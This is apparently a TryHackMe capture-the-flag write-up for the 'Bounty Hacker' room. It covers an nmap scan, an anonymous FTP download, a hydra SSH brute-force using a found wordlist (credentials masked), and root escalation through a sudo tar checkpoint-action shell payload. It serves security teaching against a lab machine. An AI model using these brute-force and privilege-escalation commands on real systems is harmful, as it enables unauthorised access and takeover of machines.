 # Bounty Hacker

At first I thought that [this](https://tryhackme.com/room/cowboyhacker) room might be a bit difficult though rated as Beginner (only on the basis of the name). Don't know why but it gave me a feeling that it'll be something really challenging. But I must say that this room is one of the most easiest rooms on TryHackMe. And also, it does not even take time to solve!

So, let's begin!

### Initial Foothold

1. ##### Deploy the machine.

First of all, we need to deploy the machine and get the IP address. We can then visit the IP address and find an animated image and a conversation among 4 people. 

![homepage](./.images/homepage.png)

We can check the source-code of the page as well but even there we won't find anything that useful. So, we can get started with our usual nmap scan.

2. ##### Find open ports on the machine

The results of the nmap scan for OS and port detection:

```
root@kali:~# nmap -A -p- -T4 10.10.116.111
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-06 23:15 UTC
Nmap scan report for ip-10-10-116-111.eu-west-1.compute.internal (10.10.116.111)
Host is up (0.00050s latency).
Not shown: 55529 filtered ports, 10003 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.172.139
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 02:AF:39:BE:67:D1 (Unknown)
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Linux 2.6.32 (90%), Ubiquiti AirOS 5.5.9 (90%), Ubiquiti Pico Station WAP (AirOS 5.2.6) (89%), Linux 2.6.32 - 3.13 (89%), Linux 3.10 - 3.13 (89%), Linux 3.8 (89%), Linux 2.6.32 - 3.1 (89%), Infomir MAG-250 set-top box (89%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.50 ms ip-10-10-116-111.eu-west-1.compute.internal (10.10.116.111)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.34 seconds
```

From this result, we can simply count the number of open ports and use it as the answer for the second question.

3. ##### Who wrote the task list? 

From the list of open ports, we can see that FTP is running at port 21. Along with that it is also mentioned that anonymous login is allowed. So, without even a second thought we must check what all data is accessible via FTP. 

``` 
root@kali:~# ftp 10.10.116.111 21
Connected to 10.10.116.111.
220 (vsFTPd 3.0.3)
Name (10.10.116.111:root): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
ftp> mget *
mget locks.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.06 secs (7.3756 kB/s)
mget task.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.07 secs (0.9067 kB/s)
ftp> 
```

Once connected via FTP as `anonymous`, we can see that there are two files namely `tasks.txt` and `locks.txt`. We can download both of them on our local machine using the `mget` command.

The question asks about 'who wrote the task list?' and the answer to that can be found in the file tasks.txt.

4. ##### What service can you bruteforce with the text file found?

We have found two file, but `tasks.txt` does not contain any data that can be used for bruteforcing but the file `locks.txt` does contain a number of strings that appear to be different permutations of a password. Also, we can see from the nmap scan that on port 22 a service is running. So, we can use this file to bruteforce the password required to access that service as we know the username as well.

5. ##### What is the users password? 

We can use `hydra` to bruteforce the password for the specific service open on port 22.

```
root@kali:~# hydra -l xxx -P locks.txt 10.10.116.111 ***
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-06 23:35:08
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.116.111:22/
[22][ssh] host: 10.10.116.111   login: xxx   password: XXXXXXXXXXXXXXXXXX
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-06 23:35:10
```

So, now with the help of hydra we know the password as well.

6. ##### user.txt

Now that we know both the username and password, we can simply log in to the user's account via SSH.

```
root@kali:~# ssh xxx@10.10.116.111
```

Once, logged in we can read the `user.txt` file and get our required flag.

7. ##### root.txt

For this task, we can first check which commands can our user run with `sudo` privileges. This can be done as:

```
lin@bountyhacker:~/Desktop$ sudo -l
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

It can be seen that the user can run the command `/bin/tar` with `root` privileges. So, we can now look for [GTFOBins](https://gtfobins.github.io/) for this command. Over there we can find one command to get an interactive system shell:

```
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

We can copy and paste this command in our SSH session along with `sudo` at the beginning so that the command executes as root.

```
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# pwd
/home/lin/Desktop
# cat /root/root.txt
```

With this, we got the root flag as well and we solved the box!

## Some Key Points to Take Away

Just keep your eyes open and look at everything you have access to!

